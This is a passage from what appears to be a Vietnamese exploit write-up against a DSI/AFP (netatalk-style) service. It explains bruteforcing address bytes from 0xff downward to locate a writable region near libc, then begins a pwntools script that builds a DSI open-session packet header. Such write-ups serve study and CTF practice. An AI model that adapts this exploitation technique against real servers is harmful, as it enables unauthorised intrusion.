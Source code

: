 ![ptr_commands.png](./images/ptr_commands.png)

![vmmap.png](./images/vmmap.png)

- Ta sẽ tiến hành bruteforce từ 0xff -> 0x00 (lý do là nếu thử từ 0x00 -> 0xff thì ít nhất 3 byte 0x7f7f65 vẫn vậy mới cho ra địa chỉ có thể ghi, nhg 3 byte cuối sẽ chọn giá trị có thể ghi được là thấp nhất trước dẫn đến địa chỉ có thể ghi được đó là địa chỉ gần phần datasegment, rất xa libc dẫn đến việc __THỬ TIẾP ĐỊA CHỈ LIBC SẼ FAIL__).

```c
#!/usr/bin/env python3
from pwn import *
context(arch="amd64", os="linux", endian="little", log_level="debug")

def gen_dsi(data):
    dsi_header = b""
    dsi_header += b"\x00"  # "request" flag
    dsi_header += b"\x04"  # open session command
    dsi_header += b"\x00\x01"  # request id
    dsi_header += p32(0)  # data offset
    dsi_header += p32(len(data), endian="big")
    dsi_header += p32(0)  # reserved
    dsi_header += data
    return dsi_header

```
